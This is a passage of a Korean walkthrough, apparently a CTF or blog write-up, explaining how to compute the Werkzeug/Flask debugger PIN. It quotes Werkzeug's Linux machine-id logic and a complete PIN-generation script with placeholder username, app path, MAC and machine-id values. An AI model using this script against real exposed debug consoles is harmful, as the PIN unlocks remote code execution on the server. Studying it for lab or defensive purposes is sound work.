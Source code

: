 ```python
                linux += f.readline().strip().rpartition(b"/")[2]
        except IOError:
            pass
 
        if linux:
            return linux
 
 
    _machine_id = _generate()
    return _machine_id
```

<br>

```_machine_id``` 값은 운영체제 별로 조건문을 해서 구하게 해놨으며, 위에는 리눅스 부분만 코드를 가져왔다.

근데 이 ```_machine_id``` 값을 구하는 알고리즘이 버전마다 다르기 때문에 반드시 확인한 뒤 구해야 한다.

<br>

이제 PIN을 만드는 알고리즘을 알았으므로 위의 코드를 그대로 가져와서 PIN 값을 만드는데 필요한 변수 2개(```probably_public_bits```, ```private_bits```)에 대해서만 값을 채워주면 된다.

<br>

```python
import hashlib
from itertools import chain

probably_public_bits = [
    'web3_user',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    'str(uuid.getnode())', #  /sys/class/net/<network interface>/address
    'get_machine_id() 값' # get_machine_id()
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
```